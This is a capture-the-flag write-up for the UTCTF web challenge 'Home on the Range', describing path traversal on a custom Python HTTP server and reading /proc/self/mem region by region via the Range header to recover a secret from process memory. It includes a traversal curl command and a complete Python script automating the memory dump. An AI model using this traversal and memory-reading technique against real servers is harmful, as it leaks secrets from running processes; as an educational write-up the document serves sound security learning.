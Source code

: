 # Web

##  Home on the Range 


### Info

![](screenshots/1.png)


## solution:

this challenge is one of the best challenges i solved in ctfs because it touched a really interesting concept with educational way ....
there is i think 3 steps to solve the challenge:

### First step: Path Traversal:

so the description said that `I wrote a custom HTTP server to play with obscure HTTP headers.` and trying to request the home page , we will notice that the server is a simple python httpserver `Server: BaseHTTP/0.6 Python/3.12.2`
![](screenshots/2.png)

we can see there is a `hello.html` file actually this file doesn't matter but trying to request it will give us an http header called `Accept-Ranges` you can find [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Ranges) more information about it ,because we will need it later!
![](screenshots/3.png)

now we know it's a simple python httpserver and yes it's vulnerable to path traversal from we can try access to the root dir by just go back `GET /../../ HTTP/1.1 Host: guppy.utctf.live:7884`:
![](screenshots/4.png)

and YES we can see the root dir list , ofc we will try to search for the flag.txt thinking it's a simple challenge!
but wait until you open the `server.py` file XD
it's a looong script ! it's a customized http server like the description says with a custom `Range` HEADER
```bash
import os
from html import escape
from mimetypes import guess_type
import re
from random import randbytes
import signal
import sys
import threading

with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")

def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range):
    boundary = randbytes(64).hex()
    for [first, last] in (ranges if ranges != [] else [[None, None]]):
        count = None
        if first is None:
            if last is None:
                first = 0
            else:
                first = file_len - last
                count = last
        elif last is not None:
            count = last - first + 1

        if (count is not None and count < 0) or first < 0:
            return False
            .
            .
            .
```




### Second step: Understand the Code And the Range header:

so we leaked the server code and it's so long but only 3 sections i found importants the first lines:
```
with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")
```
the lines that explain how the Range header works in the function `def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range)` 
the last lines:

```
server.serve_forever()
with open("/setup/flag.txt", "w") as f:
    f.write(the_flag)
```
1-just from this thre sections we know there were a file named flag.txt , we read its content to a variable named `the_flag` and we removed it !

2-also we can understand how `Range` work and briefly it's like can split the downloaded data to bytes ranges
with the format Range: bytes=[start-end],[start,end],...... and get  a response for each region 

3-we can clearly say that the flag won't be written in the file again unless the server is down!because of this`server.serve_forever()`

### Third step: The exploit:

After reading the code actually i thought we have to crush the server somehow then perform a Race Condition
to read the /setup/flag.txt before the script delete it but the author of the challenge said:
```
What approaches are invalid?
Trying to crash/shutdown/SIGTERM the server
Performance or race conditions
Brute force / dirbuster
Exploits of the Python interpreter
```

So me And my teammate [0utC4s7](https://cybersecfun.pythonanywhere.com/index.html) searhed a lot about how we can get the file again ! But Wait it's impossible ...... After a while we thought that `the_flag` variable it's not setted for nothing , Here we start searching About how we can Read a variable content in a running proces ! we start by reading the `proc/self/cmdline` to identify the  runnin process and indeed it's `server.py`

![](screenshots/5.png)

then we found out the file `proc/self/maps` that contains memory map information for the process, providing details of the virtual memory address space and their permissions :

![](screenshots/6.png)

And here we Got the idea of reading the Memory to find `the_flag` variable and we have : `/proc/self/mem` our champion because it provides direct access to the memory of a the process , but we didn't celebrate for long time:

![](screenshots/7.png)

Error code explanation: 500 - I/O error ! we tried to read the file in our local machines :

```bash
┌──(mo㉿ElMo)-[~]
└─$ cat /proc/self/mem   
cat: /proc/self/mem: Input/output error
```
same thing ..... there is something wrong here , But Waaait here u can start to link the ideas 

1-we have a file `maps` contain memory map infos with region of the VM with permessions And not all regions are readable ?!!

2-we have `mem` file that contain the content of the memory , BUT `we cant read it simply because we dont have permission to read all regions` 

3- we have `Range` header that can read specific range of bytes 

HERE the brilliant Idea , we can read region by region  in the `mem` file the using `Range Header` and getting the starting and ending addresses of each region  from the `maps` file.
if u didnt understand well what the files do read [here](https://medium.com/@razika28/inside-proc-a-journey-through-linuxs-process-file-system-5362f2414740)

so we can read the mem liks this:(`NB: we have pass the start - end of region to the Range header as decimal`)

![](screenshots/8.png)

let's go ... it worked we can now read the memory , so we keap reading the region that we have permission for 
and we get the flag by searching for the flag format:

![](screenshots/9.png)

we can automate the process 
```bash
curl 'http://guppy.utctf.live:7884/../../proc/self/maps' --path-as-is -s -H 'Range: bytes=0-22770' > memory_ranges.txt 
```
```python
import requests

def hex_to_decimal(hex_str):
    return int(hex_str, 16)

def read_memory_ranges(file_path):
    memory_ranges = []
    with open(file_path, 'r') as file:
        for line in file:
            if line.strip():
                parts = line.split()
                start_hex = parts[0].split('-')[0]
                end_hex = parts[0].split('-')[1]
                start_decimal = hex_to_decimal(start_hex)
                end_decimal = hex_to_decimal(end_hex)
                memory_ranges.append((start_decimal, end_decimal))
    return memory_ranges

def send_requests(memory_ranges):
    for start, end in memory_ranges:
        url = "http://guppy.utctf.live:7884/../../proc/self/mem"
        headers = {'Range': 'bytes={}-{}'}
        headers['Range'] = headers['Range'].format(start, end)
        response = requests.get(url, headers=headers)
        print(f"\nResponse for Range {start}-{end}: {response.status_code}")
        if "utflag" in response.text:
            print("\nFLAG FOUND!!!")
            print(response.text)
            exit()

def main():
    file_path = "./memory_ranges.txt" 
    memory_ranges = read_memory_ranges(file_path)
    send_requests(memory_ranges)

if __name__ == "__main__":
    main()
```



